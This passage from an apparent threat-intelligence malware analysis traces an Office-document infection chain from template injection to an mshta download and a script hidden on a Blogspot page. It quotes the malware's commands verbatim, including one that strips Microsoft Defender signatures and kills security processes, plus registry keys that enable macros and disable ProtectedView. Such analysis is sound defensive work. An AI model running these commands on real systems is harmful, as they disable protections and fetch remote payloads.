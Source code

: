 Activity.doc Analysis
The delivery document uses Template Injection to load a file hosted on a remote server. Figure 2 shows the contents of the delivery document’s footer that attempts to load a remote OLE document from hxxps://static.wixstatic[.]com/ugd/05e470_b104c366c1f7423293887062c7354db2.doc:
Figure 2. Footer in Activity.doc showing remote OLE location
The remote OLE file loaded in the footer of Activity.doc file is actually an RTF file (SHA256: 5f762589cdb8955308db4bba140129f172bf2dbc1e979137b6cc7949f7b19e6f) that loads an embedded Excel document with a heavily obfuscated macro that contains a significant amount of ‘junk’ code. The purpose of this macro is to decode and execute the following URL via the "Shell" command:
mshta hxxp://www.bitly[.]com/SmexEaldos3
The command above uses the built-in “mshta” application to download the contents of URL provided, in this case a shortened URL using the Bit.ly service. During WildFire's analysis, the shortened bit.ly URL redirected to hxxps://bjm9.blogspot[.]com/p/si.html, as seen in the “Location” field of the HTTP response in Figure 3.
Figure 3. Bit.ly shortened link pointing to blog hosted at Blogspot
As you can see in the GET request above, the redirect points the browser (“mshta.exe” in this case) to a blog hosted on blogspot[.]com. As you can see in Figure 4, this BlogSpot article appears a bit odd but not necessarily malicious.
Figure 4.  bjm9.blogspot[.]com screen capture
By analyzing the code hosted on the blog, we discovered it actually includes a JavaScript embedded within it that performs several activities. Figure 5 shows the malicious JavaScript hosted at the seemingly innocuous blog.
Figure 5. Script embedded in bjm9 Blogspot article
The malicious script carries out several activities on the compromised system. First, it attempts to hamper Microsoft Defender by removing its signature set. The script also kills the Defender process along with the processes for several Office applications. All of this is performed using the following command line:
cmd.exe /c cd ""%ProgramFiles%\Windows Defender"" & MpCmdRun.exe -removedefinitions -dynamicsignatures & taskkill /f /im winword.exe & taskkill /f /im excel.exe & taskkill /f /im MSPUB.exe & taskkill /f /im POWERPNT.EXE & forfiles /c ""taskkill /f /im MSASCuiL.exe"" & forfiles /c ""taskkill /f /im MpCmdRun.exe"" & exit
The script then attempts to disable security mechanisms within Office products, specifically by setting registry key values to enable macros and to disable ProtectedView. First, the script enables macros within Word, PowerPoint and Excel by setting the following registry keys to a value of "1":
HKCU\Software\Microsoft\Office\11.0\Word\Security\VBAWarnings
HKCU\Software\Microsoft\Office\12.0\Word\Security\VBAWarnings
HKCU\Software\Microsoft\Office\14.0\Word\Security\VBAWarnings
HKCU\Software\Microsoft\Office\15.0\Word\Security\VBAWarnings
HKCU\Software\Microsoft\Office\16.0\Word\Security\VBAWarnings
HKCU\Software\Microsoft\Office\11.0\PowerPoint\Security\VBAWarnings
HKCU\Software\Microsoft\Office\12.0\PowerPoint\Security\VBAWarnings
HKCU\Software\Microsoft\Office\14.0\PowerPoint\Security\VBAWarnings
HKCU\Software\Microsoft\Office\15.0\PowerPoint\Security\VBAWarnings
HKCU\Software\Microsoft\Office\16.0\PowerPoint\Security\VBAWarnings
HKCU\Software\Microsoft\Office\11.0\Excel\Security\VBAWarnings
HKCU\Software\Microsoft\Office\12.0\Excel\Security\VBAWarnings
HKCU\Software\Microsoft\Office\14.0\Excel\Security\VBAWarnings
HKCU\Software\Microsoft\Office\15.0\Excel\Security\VBAWarnings
HKCU\Software\Microsoft\Office\16.0\Excel\Security\VBAWarnings
The script then attempts to disable the ProtectedView security mechanism within Word, PowerPoint and Excel by setting the following registry keys to a value of “1”:
HKCU\Software\Microsoft\Office\11.0\Word\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\11.0\Word\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\11.0\Word\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\11.0\PowerPoint\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\11.0\PowerPoint\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\11.0\PowerPoint\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\11.0\Excel\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\11.0\Excel\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\11.0\Excel\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\12.0\Word\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\12.0\Word\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\12.0\Word\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\12.0\PowerPoint\Security\ProtectedView\DisableInternetFilesInPV
